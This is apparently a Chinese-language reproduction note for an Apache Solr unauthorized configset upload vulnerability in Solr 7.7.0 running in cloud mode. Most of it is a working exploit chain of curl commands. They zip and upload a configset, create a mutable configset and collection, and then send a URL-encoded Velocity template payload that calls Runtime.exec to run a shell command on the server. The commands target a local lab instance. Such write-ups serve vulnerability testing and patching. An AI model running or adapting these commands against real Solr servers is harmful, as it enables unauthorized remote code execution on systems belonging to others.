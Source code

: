 需要solr以cloud模式启动，特征是：
![1](Apache Solr未授权上传漏洞\1.png)

会有一个cloud的功能 。

编译一个恶意配置：

![2](Apache Solr未授权上传漏洞\2.png)

在对应目录下依次执行以下shell命令。

/solr-7.7.0/server/solr/configsets/sample_techproducts_configs/conf

zip -r - * > mytest.zip

curl -X POST --header "Content-Type:application/octet-stream" --data-binary @mytest.zip "http://127.0.0.1:8983/solr/admin/configs?action=UPLOAD&name=mytest"  #注册一个配置文件集合为mytest

curl "http://127.0.0.1:8983/api/cluster/configs?omitHeader=true"  #查询配置文件集合是否上传成功

curl "http://127.0.0.1:8983/solr/admin/configs?action=CREATE&name=mytest2&baseConfigSet=mytest&configSetProp.immutable=false&wt=xml&omitHeader=true"

curl "http://127.0.0.1:8983/solr/admin/collections?action=CREATE&name=mytest&numShards=1&replicationFactor=1&wt=xml&collection.configName=mytest2" #使用之前上传的配置文件集合为mytest

![3](Apache Solr未授权上传漏洞\3.png)

curl -v "http://127.0.0.1:8983/solr/mytest/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x='')+%23set($rt=$x.class.forName('java.lang.Runtime'))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"

最后执行命令：

![4](Apache Solr未授权上传漏洞\4.png)

